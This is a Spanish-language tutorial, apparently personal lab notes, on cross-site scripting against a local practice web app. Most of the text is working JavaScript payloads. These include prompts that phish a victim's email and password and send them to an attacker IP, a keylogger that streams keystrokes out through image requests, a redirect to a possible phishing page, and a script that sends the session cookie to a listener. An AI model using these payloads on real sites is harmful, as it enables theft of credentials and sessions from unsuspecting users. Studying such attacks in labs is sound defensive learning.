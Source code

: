 Esta vulnerabilidad permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales. Para practicar vamos a utilizar el siguiente repositorio:
![[Pasted image 20240612235555.png]]

Nos clonamos el repositorio y entramos en la siguiente ruta:
![[Pasted image 20240612235600.png]]

Hacemos un make install y nos lo monta todo por el puerto 10007:
![[Pasted image 20240612235617.png]]

Y accedemos a este panel:
![[Pasted image 20240612235629.png]]

Por lo que nos creamos dos cuentas, el usuario mario con contraseña password1 y el usuario penguin con la contraseña 123123:
![[Pasted image 20240612235635.png]]

![[Pasted image 20240612235638.png]]

## XSS REFLECTED - HTML INJECTION

Una vez estamos dentro, tenemos la posibilidad de crear una nueva entrada en la web para que sea publicada:
![[Pasted image 20240612235816.png]]

Y por ejemplo si publicamos algo se queda reflejado:
![[Pasted image 20240612235819.png]]

Ahora vamos a crear otra nota tratando de inyectar código html probando por ejemplo con la etiqueta h1:
![[Pasted image 20240612235824.png]]

Y vemos que se aplica esta etiqueta:
![[Pasted image 20240613000004.png]]

## Scripts de JavaScript
Viendo lo anterior, podemos inyectar código javascript para establecer que la página web víctima ejecute cierto código y alterar así su comportamiento:

![[Pasted image 20240613000011.png]]

Y si ejecutamos esto, se nos abrirá un pop-up:
![[Pasted image 20240613000020.png]]

![[Pasted image 20240613000024.png]]
## INGENIERÍA SOCIAL EN XSS
Podemos inyectar código javascript que solicite al usuario víctima que inserte un correo, a través de este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.57/" + email);
        }
</script>
```

![[Pasted image 20240613000031.png]]

Y ahora si accedemos al post, nos pide un email:
![[Pasted image 20240613000038.png]]

Y si nos ponemos en escucha con netcat, habremos recibido el correo del usuario:
![[Pasted image 20240613000043.png]]

No obstante, si quisiéramos también pedir la contraseña al usuario, podríamos usar este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");
        var password = prompt("Introduce tu contraseña: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.57/" + email + password);
        }
</script>
```
Y nos pide el correo y después la contraseña:
![[Pasted image 20240613000051.png]]


![[Pasted image 20240613000055.png]]
## XSS PERSISTENTE

El payload se almacena en las bases de datos de la aplicación por medio de entradas que permanecen siempre en la página, como comentarios, foros, etc:

## Keylogger con javascript

Si queremos crear un keylogger para ir capturando las pulsaciones del teclado de un usuario, lo haría con el siguiente código
```javascript
<script>
        var k = "";
        document.onkeypress = function(e){
         e = e || window.event;
         k += e.key;
         var i = new Image();
         i.src = "http://192.168.0.32/" + k;
};
</script>
```

![[Pasted image 20240613000105.png]]

Y ahora si vamos al post llamado keylogger y escribimos en alguna parte, veremos como todo lo que se escriba se habrá registrado:
![[Pasted image 20240613000112.png]]

## Redirigir al Usuario a otra Web
También podemos redirigir al usuario a otra web de forma automática utilizando este código:
```javascript
<script>
window.location.href="https://google.es";
</script>
```

![[Pasted image 20240613000123.png]]

Y ahora si hacemos clic a este post publicado, nos llevará a google (o a la página phising correspondiente):
![[Pasted image 20240613000128.png]]

![[Pasted image 20240613000131.png]]
## Capturar Cookie de Sesión con XSS
Podemos crear un código javascript para que nos muestre la cookie de sesión del usuario. Por lo que primero tenemos que comprobar que dentro de los ajustes de la web, la cookie no se encuentre protegida, ya que debe aparecer de esta forma:

![[Pasted image 20240613000142.png]]

Y después tenemos que poner este código:
```javascript
<script>
   alert(document.cookie);
</script>
```

![[Pasted image 20240613000151.png]]

Y vemos la cookie de sesión (aunque de momento solo se le muestra al mismo usuario):
![[Pasted image 20240613000157.png]]

Para poder robar la cookie de inicio de sesión del usuario, necesitaremos primeroe este código:
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.19/?cookie=' + document.cookie);
request.send();
```

![[Pasted image 20240613000201.png]]

Y con python si nos ponemos en escucha deberíamos de recibir la cookie de sesión:

![[Pasted image 20240613000209.png]]